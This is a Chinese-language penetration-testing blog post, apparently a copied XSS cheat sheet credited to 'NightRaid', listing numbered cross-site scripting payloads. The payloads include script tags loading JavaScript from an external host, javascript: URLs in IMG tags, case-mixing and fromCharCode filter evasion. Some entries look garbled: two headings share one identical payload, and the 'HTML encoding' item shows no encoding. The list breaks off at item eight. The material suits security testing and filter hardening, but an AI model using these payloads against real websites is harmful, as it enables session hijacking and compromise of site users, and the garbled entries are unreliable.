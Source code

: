 ```yaml
---
layout: post
title: XSS 攻击汇总
date: '2018-12-12 06:07:00'
tags:
- xss
- pentest
- hash-import-2023-03-22-16-36
---
```


### via:NightRaid

* * *

## _Related:_

> [Ajax hacking with XSS](http://www.91ri.org/3949.html)

> [用xss平台沦陷百度投诉中心后台](http://www.91ri.org/3839.html)

> [跨站脚本(Xss)-新手指南](http://www.nxadmin.com/web/1017.html)

> [HTML5下的XSS测试代码](http://www.nxadmin.com/penetration/1173.html)

(1) 普通的XSS JavaScript注入

    <SCRIPT SRC=http://3w.org/XSS/xss.js></SCRIPT>

(2) IMG标签XSS使用JavaScript命令

    <SCRIPT SRC=http://3w.org/XSS/xss.js></SCRIPT>

(3) IMG标签无分号无引号

    <IMG SRC=javascript:alert(‘XSS’)>

(4) IMG标签大小写不敏感

    <IMG SRC=JaVaScRiPt:alert(‘XSS’)>

(5) HTML编码(必须有分号)

    <IMG SRC=javascript:alert(“XSS”)>

(6) 修正缺陷IMG标签

    <IMG “”"><SCRIPT>alert(“XSS”)</SCRIPT>”>

(7) formCharCode标签(计算器)

    <IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

(8) UTF-8的Unicode编码(计算器)
